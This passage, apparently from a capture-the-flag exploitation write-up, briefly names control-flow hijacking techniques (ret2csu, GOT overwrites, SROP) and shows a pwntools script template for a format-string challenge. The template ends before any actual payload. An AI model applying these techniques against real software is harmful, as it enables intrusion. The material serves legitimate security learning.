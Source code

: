 And when ROP gadgets are limited or awkward to use, techniques like **ret2csu** or compiler-inserted constructor/destructor stubs in `__libc_csu_init` can help bootstrap controlled function calls or info-leaks by setting up multiple registers at once. Other modern pivots include abusing **GOT entries** under Partial RELRO, manipulating **dynamic linker hooks** (`_dl_fini`, `_rtld_global` structures), or crafting **SROP** chains to directly control the CPU context via `sigreturn`.

The shared PoC script, overwriting **printf** return address in the stack and +8 bytes.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--libc=./libc.so.6' ./babyfmt_level10.0
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './babyfmt_level10.0')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = libcdb.download_libraries('./libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('./libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *func+444
continue
c
c
si
nextret
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
```
